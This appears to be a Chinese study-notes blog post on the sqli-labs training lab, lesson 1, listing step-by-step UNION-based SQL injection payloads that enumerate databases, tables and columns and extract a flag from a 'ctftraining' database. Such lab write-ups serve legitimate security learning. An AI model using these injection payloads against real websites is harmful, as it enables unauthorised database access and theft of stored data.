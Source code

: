 ```yaml
---
layout: post
title: sqli-lib
subtitle: sql注入
date: 2020-07-20
author: mr_king
header-img: img/background.jpg
catalog: true
tags: 
    -sql注入
    -web
    -学习笔记
---
```



## 1 GET -Error based - single quotes - string
1.确定注入点 id=1' --+
2.确定返回字段数 id=1' order by 3; --+
3.暴库：?id=0' union select 1,schema_name,3 from information_schema.schemata limit 0,1 ;--+
4.报表：?id=0' union select 1,table_name,3 from information_schema.tables where table_schema ='ctftraining' limit 0,1;--+
5.爆字段：?id =0' union select 1,column_name,column_type from information_schema.columns where table_schema = 'ctftraining' and table_name ='flag' limit 0,1 --+
6.爆字段：?id=0' union select 1,concat('-',flag,'-'),3 from ctftraining.flag --+